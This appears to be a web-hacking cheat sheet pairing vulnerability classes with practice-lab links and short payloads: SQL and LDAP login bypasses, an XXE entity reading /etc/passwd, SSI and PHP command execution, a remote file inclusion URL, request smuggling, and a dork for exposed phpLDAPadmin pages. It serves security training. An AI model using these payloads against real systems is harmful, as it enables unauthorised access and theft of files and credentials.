 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php
Defacement : 
<style>
div {
 background-image: url('http://www.deepeddy.net/img/deepeddyfish.gif');
}
</style>

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;

# XPATH Injection
Lab : https://bwapp.hakhub.net/xmli_1.php
Payload : ' or id='1

# SSI Injection 
Payload : <!--#exec cmd="OS_COMMAND" -->

# Code Injection
Lab : https://bwapp.hakhub.net/phpi.php
Payload : system("ls")

# Local File Inclusion/ Remote File Inclusion
Lab: https://bwapp.hakhub.net/rlfi.php
http://zero.webappsecurity.com:8080/help.html?topic=http://bxss.me/t/fit.txt%3F.html

# Command Injection
Lab : https://bwapp.hakhub.net/commandi.php

# HTTP Smuggling
Lab : https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
Payload : 
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

# Host Header Injection
Lab : https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning

# Server-side Template Injection
Lab : https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic
Payload : <%= 7*7 %> 

# Server-Side Request Forgery
Lab : https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
Payload : http://localhost/admin

# IMAP SMTP Injection

# HTTP Incoming Request
